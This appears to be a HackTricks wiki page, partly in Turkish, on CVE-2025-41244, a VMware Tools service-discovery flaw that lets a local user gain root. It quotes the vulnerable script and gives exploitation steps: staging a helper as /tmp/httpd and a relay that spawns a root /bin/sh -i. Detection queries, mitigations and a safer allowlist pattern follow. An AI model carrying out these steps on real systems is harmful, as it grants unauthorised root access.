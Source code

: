 # VMware Tools service discovery LPE (CWE-426) via regex-based binary discovery (CVE-2025-41244)

{{#include ../../banners/hacktricks-training.md}}

Bu teknik, çalışan süreçlerin komut satırlarını parse eden ve servis sürümlerini çıkartıp aday bir ikiliyi "version" flag'iyle çalıştıran regex-tabanlı service discovery pipeline'larını kötüye kullanır. İzin verici desenler, kontrolsüz ve saldırgan tarafından kontrol edilen yolları (ör. /tmp/httpd) kabul ettiğinde, ayrıcalıklı toplayıcı kontrolsüz bir konumdan rastgele bir ikiliyi çalıştırır ve bu da yerel ayrıcalık yükseltimine yol açar. NVISO bunu VMware Tools/Aria Operations Service Discovery içinde CVE-2025-41244 olarak belgeledi.

- Etki: Yerel ayrıcalık yükseltme root'a (veya ayrıcalıklı discovery hesabına)
- Temel neden: Untrusted Search Path (CWE-426) + süreç komut satırlarının izin verici regex eşleştirmesi
- Etkilenenler: open-vm-tools/VMware Tools on Linux (credential-less discovery), VMware Aria Operations SDMP (credential-based discovery via Tools/proxy)

## How VMware service discovery works (high level)

- Credential-based (legacy): Aria, yapılandırılmış ayrıcalıklı kimlik bilgilerini kullanarak VMware Tools aracılığıyla guest içinde discovery script'lerini çalıştırır.
- Credential-less (modern): Discovery mantığı VMware Tools içinde, guest'te zaten ayrıcalıklı olarak çalışır.

Her iki mod da nihayetinde dinleyen soketleri olan süreçleri tarayan, bir regex ile eşleşen komut yolunu çıkaran ve ilk argv token'ını bir version flag ile çalıştıran shell mantığını çalıştırır.

## Root cause and vulnerable pattern (open-vm-tools)

open-vm-tools içinde, serviceDiscovery plugin script get-versions.sh aday ikilileri geniş regular expression'larla eşler ve herhangi bir trusted-path doğrulaması yapmadan ilk token'ı çalıştırır:
```bash
get_version() {
PATTERN=$1
VERSION_OPTION=$2
for p in $space_separated_pids
do
COMMAND=$(get_command_line $p | grep -Eo "$PATTERN")
[ ! -z "$COMMAND" ] && echo VERSIONSTART "$p" "$("${COMMAND%%[[:space:]]*}" $VERSION_OPTION 2>&1)" VERSIONEND
done
}
```
Bu, \S (boşluk olmayan) içeren esnek desenlerle çağrılır; bu desenler kullanıcı tarafından yazılabilir konumlardaki sistem dışı yollarla sorunsuzca eşleşir:
```bash
get_version "/\S+/(httpd-prefork|httpd|httpd2-prefork)($|\s)" -v
get_version "/usr/(bin|sbin)/apache\S*" -v
get_version "/\S+/mysqld($|\s)" -V
get_version "\.?/\S*nginx($|\s)" -v
get_version "/\S+/srm/bin/vmware-dr($|\s)" --version
get_version "/\S+/dataserver($|\s)" -v
```
- Extraction grep -Eo kullanır ve ilk token'ı alır: ${COMMAND%%[[:space:]]*}
- Güvenilen sistem yolları için herhangi bir whitelist/allowlist yok; eşleşen ada sahip bulunan herhangi bir listener -v/--version ile çalıştırılır

Bu, bir untrusted search path execution primitive oluşturur: world-writable dizinlerde bulunan rastgele ikili dosyalar (örn., /tmp/httpd) ayrıcalıklı bir bileşen tarafından çalıştırılır.

## Exploitation (both credential-less and credential-based modes)

Preconditions
- Guest üzerinde listening socket açan bir unprivileged process çalıştırabilirsiniz.
- Discovery job etkin ve periyodik olarak çalışır (tarihi olarak ~5 dakika).

Steps
1) İzin veren regex'lerden birine uyan bir yola bir binary yerleştirin, örn. /tmp/httpd veya ./nginx
2) Bunu low-privileged bir kullanıcı olarak çalıştırın ve herhangi bir listening socket açtığından emin olun
3) Discovery cycle'ı bekleyin; privileged collector otomatik olarak şu komutu çalıştıracaktır: /tmp/httpd -v (veya benzeri), böylece programınız root olarak çalışır

Minimal demo (using NVISO’s approach)
```bash
# Build any small helper that:
#  - default mode: opens a dummy TCP listener
#  - when called with -v/--version: performs the privileged action (e.g., connect to an abstract UNIX socket and spawn /bin/sh -i)
# Example staging and trigger
cp your_helper /tmp/httpd
chmod +x /tmp/httpd
/tmp/httpd          # run as low-priv user and wait for the cycle
# After the next cycle, expect a root shell or your privileged action
```
Tipik süreç soy ağacı
- Kimlik bilgisi tabanlı: /usr/bin/vmtoolsd -> /bin/sh /tmp/VMware-SDMP-Scripts-.../script_...sh -> /tmp/httpd -v -> /bin/sh -i
- Kimlik bilgisi olmadan: /bin/sh .../get-versions.sh -> /tmp/httpd -v -> /bin/sh -i

Artefaktlar (kimlik bilgisi tabanlı)
Kurtarılan SDMP wrapper scriptleri /tmp/VMware-SDMP-Scripts-{UUID}/ altında kötü amaçlı yolun doğrudan çalıştırılmasını gösterebilir:
```bash
/tmp/httpd -v >"/tmp/VMware-SDMP-Scripts-{UUID}/script_-{ID}_0.stdout" 2>"/tmp/VMware-SDMP-Scripts-{UUID}/script_-{ID}_0.stderr"
```
## Generalizing the technique: regex-driven discovery abuse (portable pattern)

Many agents and monitoring suites implement version/service discovery by:
- Enumerating processes with listening sockets
- Grepping argv/command lines with permissive regexes (e.g., patterns containing \S)
- Executing the matched path with a benign flag like -v, --version, -V, -h

If the regex accepts untrusted paths and the path is executed from a privileged context, you get CWE-426 Untrusted Search Path execution.

Abuse recipe
- Name your binary like common daemons that the regex is likely to match: httpd, nginx, mysqld, dataserver
- Place it in a writable directory: /tmp/httpd, ./nginx
- Ensure it matches the regex and opens any port to be enumerated
- Wait for the scheduled collector; you get an automatic privileged invocation of <path> -v

Masquerading note: This aligns with MITRE ATT&CK T1036.005 (Match Legitimate Name or Location) to increase match probability and stealth.

Reusable privileged I/O relay trick
- Build your helper so that on privileged invocation (-v/--version) it connects to a known rendezvous (e.g., a Linux abstract UNIX socket like @cve) and bridges stdio to /bin/sh -i. This avoids on-disk artifacts and works across many environments where the same binary is re-invoked with a flag.

## Detection and DFIR guidance

Hunting queries
- Uncommon children of vmtoolsd or get-versions.sh such as /tmp/httpd, ./nginx, /tmp/mysqld
- Any execution of non-system absolute paths by discovery scripts (look for spaces in ${COMMAND%%...} expansions)
- ps -ef --forest to visualize ancestry trees: vmtoolsd -> get-versions.sh -> <non-system path>

On Aria SDMP (credential-based)
- Inspect /tmp/VMware-SDMP-Scripts-{UUID}/ for transient scripts and stdout/stderr artifacts showing execution of attacker paths

Policy/telemetry
- Alert when privileged collectors execute from non-system prefixes: ^/(tmp|home|var/tmp|dev/shm)/
- File integrity monitoring on get-versions.sh and VMware Tools plugins

## Mitigations

- Patch: CVE-2025-41244 için Broadcom/VMware güncellemelerini uygulayın (Tools ve Aria Operations SDMP)
- Disable or restrict credential-less discovery where feasible
- Validate trusted paths: yürütmeyi allowlist’lenmiş dizinlerle kısıtlayın (/usr/sbin, /usr/bin, /sbin, /bin) ve sadece tam olarak bilinen ikili dosyalara izin verin
- Avoid permissive regexes with \S; tercih edin: anchored, explicit absolute paths ve exact command names
- Drop privileges for discovery helpers where possible; sandbox (seccomp/AppArmor) ile etkisini azaltın
- Monitor for and alert on vmtoolsd/get-versions.sh executing non-system paths

## Notes for defenders and implementers

Safer matching and execution pattern
```bash
# Bad: permissive regex and blind exec
COMMAND=$(get_command_line "$pid" | grep -Eo "/\\S+/nginx(\$|\\s)")
[ -n "$COMMAND" ] && "${COMMAND%%[[:space:]]*}" -v

# Good: strict allowlist + path checks
candidate=$(get_command_line "$pid" | awk '{print $1}')
case "$candidate" in
/usr/sbin/nginx|/usr/sbin/httpd|/usr/sbin/apache2)
"$candidate" -v 2>&1 ;;
*)
: # ignore non-allowlisted paths
;;
esac
```
## Kaynaklar

- [NVISO – You name it, VMware elevates it (CVE-2025-41244)](https://blog.nviso.eu/2025/09/29/you-name-it-vmware-elevates-it-cve-2025-41244/)
- [Broadcom advisory for CVE-2025-41244](https://support.broadcom.com/web/ecx/support-content-notification/-/external/content/SecurityAdvisories/0/36149)
- [open-vm-tools – serviceDiscovery/get-versions.sh (stable-13.0.0)](https://github.com/vmware/open-vm-tools/blob/stable-13.0.0/open-vm-tools/services/plugins/serviceDiscovery/get-versions.sh)
- [MITRE ATT&CK T1036.005 – Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005/)
- [CWE-426: Untrusted Search Path](https://cwe.mitre.org/data/definitions/426.html)

{{#include ../../banners/hacktricks-training.md}}
